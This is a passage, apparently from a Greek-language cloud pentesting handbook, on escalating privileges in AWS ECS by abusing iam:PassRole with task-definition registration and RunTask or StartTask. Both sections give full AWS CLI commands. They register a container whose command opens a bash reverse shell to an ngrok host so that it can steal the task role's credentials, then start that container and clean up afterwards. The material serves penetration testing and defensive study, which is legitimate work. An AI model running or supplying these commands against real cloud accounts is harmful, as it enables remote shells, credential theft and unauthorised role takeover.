 {% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:RunTask`

Ένας επιτιθέμενος που εκμεταλλεύεται την άδεια `iam:PassRole`, `ecs:RegisterTaskDefinition` και `ecs:RunTask` στο ECS μπορεί να **δημιουργήσει έναν νέο ορισμό εργασίας** με ένα **κακόβουλο κοντέινερ** που κλέβει τα διαπιστευτήρια μεταδεδομένων και **να το εκτελέσει**.
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--requires-compatibilities "[\"FARGATE\"]" \
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

# Run task definition
aws ecs run-task --task-definition iam_exfiltration \
--cluster arn:aws:ecs:eu-west-1:947247140022:cluster/API \
--launch-type FARGATE \
--network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-e282f9b8\"]}}"

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
**Πιθανές Επιπτώσεις:** Άμεσο privesc σε διαφορετικό ρόλο ECS.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`

Ακριβώς όπως στο προηγούμενο παράδειγμα, ένας επιτιθέμενος που εκμεταλλεύεται τα δικαιώματα **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`** στο ECS μπορεί να **δημιουργήσει έναν νέο ορισμό εργασίας** με ένα **κακόβουλο κοντέινερ** που κλέβει τα διαπιστευτήρια μεταδεδομένων και **να το εκτελέσει**.\
Ωστόσο, σε αυτή την περίπτωση, χρειάζεται να υπάρχει μια παρουσία κοντέινερ για να εκτελέσει τον κακόβουλο ορισμό εργασίας.
```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
--task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
--network-mode "awsvpc" \
--cpu 256 --memory 512\
--container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

aws ecs start-task --task-definition iam_exfiltration \
--container-instances <instance_id>

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
**Πιθανές Επιπτώσεις:** Άμεσο privesc σε οποιονδήποτε ρόλο ECS.
